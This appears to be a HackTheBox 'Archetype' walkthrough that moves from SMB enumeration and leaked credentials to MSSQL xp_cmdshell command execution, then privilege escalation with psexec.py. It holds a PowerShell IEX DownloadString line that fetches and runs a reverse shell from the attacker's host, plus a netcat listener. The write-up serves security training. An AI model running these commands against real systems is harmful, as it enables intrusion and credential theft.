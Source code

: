 # Archetype
This is the first box of the ‘Starting Point’ path from HackTheBox (a series of 9 boxes rated Very Easy).

![Archetype](../Images/htb_archetype_1.png)

**Tools: nmap, smbclient, netcat, Impacket's mssqlclient.py and psexec.py.**

We begin with a scan using nmap (this machine’s IP is 10.10.10.27):
> nmap -n -sC -sV -Pn -T4 10.10.10.27

Or for a more complete scan:
> nmap -n -sC -sV -p- -Pn 10.10.10.27

![Archetype](../Images/htb_archetype_2.png)

The result shows a few open ports, the most promising being 445 (smb) and 1433 (sql server).  
Next up, we try to enumerate the smb with smbclient to look for shared folders:
> smbclient -L \\10.10.10.27 -N

![Archetype](../Images/htb_archetype_3.png)

There is a ‘backups’ share, and upon accessing it, we see a file called ‘prod.dtsConfig’, then we simply download it:
> smbclient -N //10.10.10.27/backups  
> dir  
>  get prod.dtsConfig  

![Archetype](../Images/htb_archetype_4.png)

Now we can read the file:
> cat prod.dtsConfig

![Archetype](../Images/htb_archetype_5.png)

This is a config file from the SQL Server, and we can see that there is a Password and an User field. We can use this to connect to the SQL Server, and for this we’ll be using the mssqlclient.py script from the Impacket toolkit. Now this is the part where I ran into some issues with this script, so I had to do the following procedure to get it to work.  

Install pip for python3:
> sudo apt install python3-venv python3-pip

Git clone impacket, better do it to at /opt to keep it organized:
> sudo git clone https://github.com/SecureAuthCorp/impacket.git

Go inside the impacket folder (cd impacket) and run:
> pip3 install .

Next, we go to the ‘examples’ folder, where the script is, and run the following command to log into the SQL Server:
> python3 mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth

We insert the password found previously and we’re in.  
Next up, we run a query to find out if we have the highest privileges:
> SELECT IS_SRVROLEMEMBER (‘sysadmin’)

The answer should be 1 (= true), confirming that we have sysadmin privileges.

![Archetype](../Images/htb_archetype_6.png)

Now we can enable the xp_cmdshell (“Spawns a Windows command shell and passes in a string for execution”) to gain Remote Command Execution (RCE):
> EXEC sp_configure ‘Show Advanced Options’, 1;  
> reconfigure;  
> sp_configure;  
> EXEC sp_configure ‘xp_cmdshell’, 1  
> reconfigure;  
> xp_cmdshell “whoami” (run commands to test, like ‘whoami’ or ‘hostname’)  

![Archetype](../Images/htb_archetype_7.png)

In order to get a ‘real’ shell, we can try a reverse shell. Below, is the powershell reverse shell that we’ll be using. You can find more reverse shells at [**RevShells.com**](https://www.revshells.com/) and customize it with your current IP address, port, and other options) — my IP was 10.10.15.29, and we’re using port 443 (keep in mind that it’s an one-liner command) - I had to take a screenshot of the code because some AVs were blocking this page (also the Revshells website), but at revshells.com select Reverse > Powershell #2 and set the IP/port:

![Archetype](../Images/htb_archetype_code.png)

We save it to a *‘revshell.ps1’* file in our VM.  
Then we set up a python http server to host the revshell file:
> python -m SimpleHTTPServer 80  
> or  
>  python3 -m http.server 80

Now we can start a netcat listening session on port 443:
> nc -vnlp 443

~ If you have your ufw firewall enabled in your VM, you’ll need to change the rules to allow incoming requests to ports 80 and 443:
> ufw allow from 10.10.10.27 proto tcp to any port 80,443

Now in our target machine’s SQL Server, we can run the command to download our revshell file (**one-liner command**):
> xp_cmdshell “powershell “IEX (New-Object Net.WebClient).DownloadString(\”http://10.10.15.29/revshell.ps1");”

And back to our netcat…

![Archetype](../Images/htb_archetype_8.png)

We have a shell!  
The user.txt file containing the user flag is at the sql_svc user’s desktop, so we just read the file:

![Archetype](../Images/htb_archetype_9.png)

In order to get the root flag, we’ll need to, well, become root (in this ‘Windows case’, Administrator a.k.a ‘nt authority\system’). As this sql_svc account is a service account, it’s good practice to check for recently accessed files / executed commands. To do so in PowerShelll, we can insert the command below in our reverse shell (**one-liner command**):
> type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

![Archetype](../Images/htb_archetype_10.png)

And there it is! “Someone” mapped the *‘backups’* share using the administrator credentials.  

Next step is to use another Impacket script, psexec.py (we do so in our VM’s terminal, so we go back to the /opt/impacket/examples folder):
> python3 psexec.py administrator@10.10.10.27

We simply provide the password when asked, and do a quick whoami check:

![Archetype](../Images/htb_archetype_11.png)

Now we just need to read the root.txt file at the administrator’s desktop:

![Archetype](../Images/htb_archetype_12.png)

![Archetype](../Images/htb_archetype_13.png)

That’s all for now!  
We’ll keep in mind that some of the info collected (like credentials, folders…) can be useful in the next 8 labs of the ‘Starting Point’ path.  
Thanks for reading and keep hacking!  

**Some useful resources to understand the procedures used to root this box:**  

mssqlclient.py troubleshoot  
* https://forum.hackthebox.eu/discussion/3034/starting-point-foothold-mssqlclient-py  

IS_SRVROLEMEMBER (‘sysadmin’)  
* https://docs.microsoft.com/en-us/sql/t-sql/functions/is-srvrolemember-transact-sql?redirectedfrom=MSDN&view=sql-server-ver15  

xp_cmdshell  
* https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15  
* https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server  
* https://www.sqlshack.com/use-xp-cmdshell-extended-procedure/  
* https://rioasmara.com/2020/01/31/mssql-rce-and-reverse-shell-xp_cmdshell/
